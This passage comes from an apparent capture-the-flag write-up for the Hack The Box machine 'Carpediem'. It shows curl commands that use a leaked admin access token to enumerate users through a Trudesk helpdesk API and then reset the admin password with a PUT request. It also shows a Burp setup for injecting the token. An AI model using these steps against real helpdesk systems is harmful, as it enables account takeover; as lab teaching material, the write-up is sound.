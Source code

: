 Googling around I can't find any publicly disclosed exploits for Trudesk 1.1.11. 
Reading the [truedesk docs](https://docs.trudesk.io/v1/api/#Get) we should use the ``accessToken`` as a header, we can verify this by cURL'ign the API using the admin accesstoken:

```bash
➜  carpediem curl -H "accesstoken: 22e56ec0b94db029b07365d520213ef6f5d3d2d9" -l http://trudesk.carpediem.htb/api/v1/users
{"success":true,"count":5,"users":[{"preferences":{"tourCompleted":false,"autoRefreshTicketGrid":true,"openChatWindows":[]},"hasL2Auth":false,"deleted":false,"_id":"6243c3471e0d4d001b0740d7","username":"acooke","email":"acooke@carpediem.htb","fullname":"Adeanna Cooke","title":"Director - Human Resources","role":{"_id":"623c8b20855cc5001a8ba139","name":"Support","description":"Default role for agents","normalized":"support","isAdmin":false,"isAgent":true,"id":"623c8b20855cc5001a8ba139"},"lastOnline":"2022-03-30T14:21:15.212Z","id":"6243c3471e0d4d001b0740d7","groups":[]},{"preferences":{"tourCompleted":false,"autoRefreshTicketGrid":true,"openChatWindows":[]},"hasL2Auth":false,"deleted":false,"_id":"6243c0be1e0d4d001b0740d4","username":"jhammond","email":"jhammond@carpediem.htb","fullname":"Jeremy Hammond","title":"Sr. Systems Engineer","role":{"_id":"623c8b20855cc5001a8ba139","name":"Support","description":"Default role for agents","normalized":"support","isAdmin":false,"isAgent":true,"id":"623c8b20855cc5001a8ba139"},"lastOnline":"2022-04-01T23:36:55.940Z","id":"6243c0be1e0d4d001b0740d4","groups":[]},{"preferences":{"tourCompleted":false,"autoRefreshTicketGrid":true,"openChatWindows":[]},"hasL2Auth":false,"deleted":false,"_id":"6243c28f1e0d4d001b0740d6","username":"jpardella","email":"jpardella@carpediem.htb","fullname":"Joey Pardella","title":"Desktop Support","role":{"_id":"623c8b20855cc5001a8ba139","name":"Support","description":"Default role for agents","normalized":"support","isAdmin":false,"isAgent":true,"id":"623c8b20855cc5001a8ba139"},"lastOnline":"2022-04-07T20:33:20.918Z","id":"6243c28f1e0d4d001b0740d6","groups":[]},{"preferences":{"tourCompleted":false,"autoRefreshTicketGrid":true,"openChatWindows":[]},"hasL2Auth":false,"deleted":false,"_id":"6243c69d1acd1559cdb4019b","username":"svc-portal-tickets","email":"tickets@carpediem.htb","fullname":"Portal Tickets","title":"","role":{"_id":"623c8b20855cc5001a8ba13a","name":"User","description":"Default role for users","normalized":"user","isAdmin":false,"isAgent":false,"id":"623c8b20855cc5001a8ba13a"},"lastOnline":"2022-03-30T13:50:02.824Z","id":"6243c69d1acd1559cdb4019b","groups":[]},{"preferences":{"tourCompleted":false,"autoRefreshTicketGrid":true,"openChatWindows":[]},"hasL2Auth":false,"deleted":false,"_id":"623c8b20855cc5001a8ba13c","username":"admin","fullname":"Robert Frost","email":"rfrost@carpediem.htb","role":{"_id":"623c8b20855cc5001a8ba138","name":"Admin","description":"Default role for admins","normalized":"admin","isAdmin":true,"isAgent":true,"id":"623c8b20855cc5001a8ba138"},"title":"Sr. Network Engineer","lastOnline":"2022-04-07T20:30:32.198Z","id":"623c8b20855cc5001a8ba13c","groups":[]}]}
```

With the help of Burp extension _Add Custom Header_ add the accessToken and add it to all sessions (Project Options > Sessions > Session Handling Rules > Invoke a Burp extension ), don't forget to add the rule to be applied to _Proxy_ as well. 

![[/assets/images/htb-writeup-carpediem/carpediem13.png]]

We're not able to bypass the login, so I guess we should focus on the api instead. 


### Step 6
Playing around with the API we have a few options, lets start by trying to change the password of the _admin_ account.
```bash
➜  carpediem curl -X PUT -H "Content-Type: applications/json" -H "accesstoken: 22e56ec0b94db029b07365d520213ef6f5d3d2d9" -d "{"aPass":"aaAA123\!", "aPassconfirm":"aaAA123\!"}" -l http://trudesk.carpediem.htb/api/v1/users/admin  

{"success":true,"user":{"preferences":{"tourCompleted":false,"autoRefreshTicketGrid":true,"openChatWindows":[]},"hasL2Auth":false,"deleted":false,"_id":"623c8b20855cc5001a8ba13c","username":"admin","fullname":"Robert Frost","email":"rfrost@carpediem.htb","role":{"grants":["admin:*","agent:*","chat:*","tickets:*","accounts:*","groups:*","teams:*","departments:*","comments:*","reports:*","notices:*","settings:*","api:*"],"hierarchy":true,"_id":"623c8b20855cc5001a8ba138","name":"Admin","description":"Default role for admins","normalized":"admin","__v":0,"isAdmin":true,"isAgent":true,"id":"623c8b20855cc5001a8ba138"},"title":"Sr. Network Engineer","lastOnline":"2022-04-07T20:30:32.198Z","groups":[]}}% 
```
